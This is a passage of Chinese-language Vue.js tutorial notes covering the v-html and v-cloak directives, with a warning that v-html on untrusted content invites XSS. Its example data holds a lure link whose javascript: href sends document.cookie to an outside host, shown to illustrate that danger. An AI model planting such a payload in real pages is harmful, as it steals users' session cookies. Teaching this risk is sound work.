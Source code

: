 作用: 向指定节点中渲染包含`html`结构的内容

**与插值语法的区别**:

1. `v-html`会替换掉节点中的所有的内容, `{{xxx}}`则不会
2. `v-html`可以识别`html`结构

特别注意`v-html`有安全性问题！！！

1. 在网站上动态渲染任意`html`是非常危险的, 容易导致**XSS**go那估计
2. 一定要在可信的内容上使用`v-html`, 永远不要用在用户提交的内容上！！！

```javascript
<div id="root">
    <div>你好, {{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>
<script>
    Vue.config.productionTip = false;
    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷',
            str:'<h3>你好啊!</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```

### 1.16.3 v-cloak指令

`v-cloak`指令(没有值)

1. 本质是一个特殊属性, `Vue`实例创建完毕并接管容器后, 会删掉`v-cloak`属性
2. 使用`css`配合`v-cloak`可以解决网速慢时页面展示出`{{xxx}}`的问题

```javascript
<style>
	[v-cloak]{
		display:none;
	}
</style>
<body>
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<!-- 延迟5s收到vue.js -->
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
<script>
    Vue.config.productionTip = false;
    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>
</body>
```
